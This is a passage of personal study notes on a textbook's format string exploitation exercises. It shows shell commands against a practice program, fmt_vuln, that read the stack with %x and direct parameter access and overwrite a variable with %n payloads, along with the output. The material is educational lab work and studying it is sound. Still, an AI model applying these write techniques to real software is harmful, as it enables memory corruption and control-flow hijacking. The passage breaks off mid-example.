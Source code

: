       ```
      reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08JUNK\x95\x97\x04\x08JUNK\x96\x97\x04\x08JUNK\x97\x97\x04\x08")%x%x%126x%n
      The right way to print user-controlled input:
      ??JUNK??JUNK??JUNK??%x%x%126x%n
      The wrong way to print user-controlled input:
      ??JUNK??JUNK??JUNK??bffff3c0b7fe75fc
      0
      [*] test_val @ 0x08049794 = 170 0x000000aa 
      ```
    </details>
  - Using Direct parameter access to simplify the above method for simpler, single execution writes (which i do understand so im going to explain).
    -  <details><summary>Reading</summary>

          Its a bit easier to explain writing if i explain reading first. In the same  way that ```./fmt_vuln AAAA%x%x%x%x``` can read ```AAAA...41414141```, ```./fmt_vuln AAAA%4\$x``` can be used to read ```AAAA41414141``` it does so by asking for the Nth occurence of a sequence with the special character ```$``` (which needs to be escaped since we are using this in the context of bash as an argument. ```%4/$x == %4$x```  which translates to the 4th occuence of the 4 byte hexadecimal sequence. 
          ```
          reader@hacking:~/booksrc $ ./fmt_vuln AAAA%x%x%x%x
          The right way to print user-controlled input:
          AAAA%x%x%x%x
          The wrong way to print user-controlled input:
          AAAAbffff3d0b7fe75fc041414141
          [*] test_val @ 0x08049794 = -72 0xffffffb8
          reader@hacking:~/booksrc $ ./fmt_vuln AAAA%4\$x
          The right way to print user-controlled input:
          AAAA%4$x
          The wrong way to print user-controlled input:
          AAAA41414141
          [*] test_val @ 0x08049794 = -72 0xffffffb8 
          reader@hacking:~/booksrc $
          ```

       </details>
    - Writing: To write data you must first read the data inside the memory address you would like to write too, you can do so by effectivey "zeroing" (or as close to it) the value, and then doing a little bit of math to rewrite the address.
      - <details><summary>Ex</summary>

          Using the example from the book. The intent is to change the address of tets_val to ```0xbffffd72```. First we hav to clear our the current value. 
          ```c
          reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08". "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%4\$n
          The right way to print user-controlled input:
          ????????%4$n
          The wrong way to print user-controlled input:
          ????????
          [*] test_val @ 0x08049794 = 16 0x00000010
